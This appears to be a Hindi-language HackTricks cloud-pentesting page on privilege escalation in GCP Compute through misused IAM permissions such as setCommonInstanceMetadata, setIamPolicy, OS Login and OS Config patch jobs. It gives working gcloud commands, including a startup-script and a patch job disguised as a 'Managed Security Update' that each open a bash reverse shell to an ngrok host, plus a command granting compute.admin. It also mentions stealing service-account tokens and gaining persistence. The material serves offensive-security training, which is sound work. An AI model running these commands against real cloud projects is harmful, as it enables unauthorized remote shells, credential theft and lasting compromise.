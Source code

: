 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो इंस्टेंस के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास इंस्टेंस से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!

### `compute.projects.setCommonInstanceMetadata`

उस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **इंस्टेंस** का और **एक उपयोगकर्ता के अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **नया उपयोगकर्ता** बना सकते हैं। इसलिए, आप किसी भी VM इंस्टेंस में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ इंस्टेंस चल रहा है।\
सीमाएँ:

- ध्यान दें कि VM इंस्टेंस में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है
- आपको लॉगिन करने के लिए **SSH** सर्वर से संपर्क करने में सक्षम होना चाहिए

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और इंस्टेंस को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी। यहाँ एक उदाहरण है जिसमें `roles/compute.admin` को एक सेवा खाते में जोड़ा गया है:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

यदि **OSLogin इंस्टेंस में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट प्रिविलेज़** नहीं होंगे।

> [!TIP]
> इस अनुमति के साथ VM इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।

### **`compute.instances.osAdminLogin`**

यदि **OSLogin इंस्टेंस में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और इंस्टेंस से कनेक्ट कर सकते हैं। आपके पास इंस्टेंस के अंदर **रूट प्रिविलेज़** होंगे।

> [!TIP]
> इस अनुमति के साथ VM इंस्टेंस के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक सेवा खाते के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाते का टोकन चुराया जाए** जो मेटाडेटा को एक्सेस करके प्रिविलेज़ को बढ़ाने के लिए है।

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहां](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच जॉब या डिप्लॉयमेंट**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में लेटरली मूव करने और एक प्रोजेक्ट के भीतर सभी कंप्यूट इंस्टेंस पर कोड निष्पादन प्राप्त करने में सक्षम करेगा।

ध्यान दें कि वर्तमान में आपको इंस्टेंस से जुड़े SA पर **`actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से एक्सप्लॉइट करना चाहते हैं, तो आपको या तो एक [**पैच जॉब**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **या** [**डिप्लॉयमेंट**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** बनानी होगी।\
पैच जॉब चलाने के लिए:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
एक पैच डिप्लॉयमेंट को लागू करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
उपकरण [patchy](https://github.com/rek7/patchy) का उपयोग अतीत में इस गलत कॉन्फ़िगरेशन का शोषण करने के लिए किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थिरता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** कंप्यूट इमेज पर दें।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क स्नैपशॉट पर दें।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क पर दें।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे जो एक्सेस स्कोप को बायपास करने के लिए आजमाए जा सकते हैं**](../)。

### GCP कंप्यूट इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## संदर्भ

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
